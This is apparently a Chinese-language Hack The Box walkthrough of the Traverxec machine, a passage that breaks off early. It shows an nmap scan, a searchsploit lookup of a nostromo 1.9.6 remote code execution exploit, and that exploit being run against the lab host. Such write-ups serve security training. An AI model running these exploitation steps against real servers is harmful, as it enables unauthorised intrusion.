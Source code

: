 # 免责声明
>本文渗透的主机经过合法授权。本文使用的工具和方法仅限学习交流使用，请不要将文中使用的工具和渗透思路用于任何非法用途，对此产生的一切后果，本人不承担任何责任，也不对造成的任何误用或损害负责。


# 服务发现
```
┌──(root💀kali)-[~/htb/Traverxec]
└─# nmap -sV -Pn 10.10.10.165              
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
Starting Nmap 7.91 ( https://nmap.org ) at 2021-12-27 10:01 EST
Nmap scan report for 10.10.10.165
Host is up (0.63s latency).
Not shown: 998 filtered ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u1 (protocol 2.0)
80/tcp open  http    nostromo 1.9.6
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 80.28 seconds

```

看到网络服务器是nostromo，搜索这个服务器的漏洞情况
```
┌──(root💀kali)-[~/htb/Traverxec]
└─# searchsploit nostromo 1.9.6                                                                                                                                                                                                                        130 ⨯
--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                                                                                                                             |  Path
--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
nostromo 1.9.6 - Remote Code Execution                                                                                                                                                                                     | multiple/remote/47837.py
--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results

```

存在一个RCE

尝试执行：
```
┌──(root💀kali)-[~/htb/Traverxec]
└─# python 47837.py 10.10.10.165 80 id                                                                                       


                                        _____-2019-16278
        _____  _______    ______   _____\    \   
   _____\    \_\      |  |      | /    / |    |  
  /     /|     ||     /  /     /|/    /  /___/|  
 /     / /____/||\    \  \    |/|    |__ |___|/  
|     | |____|/ \ \    \ |    | |       \        
|     |  _____   \|     \|    | |     __/ __     
```